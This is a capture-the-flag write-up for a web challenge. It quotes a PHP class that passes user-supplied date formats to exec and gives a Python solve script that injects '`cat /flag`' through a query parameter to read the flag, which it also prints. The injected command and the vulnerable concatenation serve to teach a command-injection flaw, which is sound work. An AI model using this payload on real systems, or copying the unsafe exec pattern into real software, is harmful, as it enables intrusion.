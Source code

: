```yaml
---
created: 2024-07-16T22:50
updated: 2024-08-04T19:29
solves: 847
points: 825
---
```


## Analysis

`TimeModel` is the most obvious attack surface, it runs user supplied format in `exec`.

```php [TimeModel.php]
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

## Solve Script

```python
import requests
import re
payload = "'`cat /flag`'"
r = requests.get("http://94.237.59.199:39808/?format="+payload)
print(re.search("HTB{.*}", r.text).group(0))
# HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3_33e95b9ffd98a08268d47ea25f327da1}
```

### Explanation

When we supply the following to format, we are able to embed a command execution that gives us the flag.

```
'`cat /flag`'
```

```php
$this->command = "date '+" . $format . "' 2>&1";
$this->command = "date '+'`cat /flag`'' 2>&1"; # will become
```

Not sure if existence of special characters might mess up the flag.
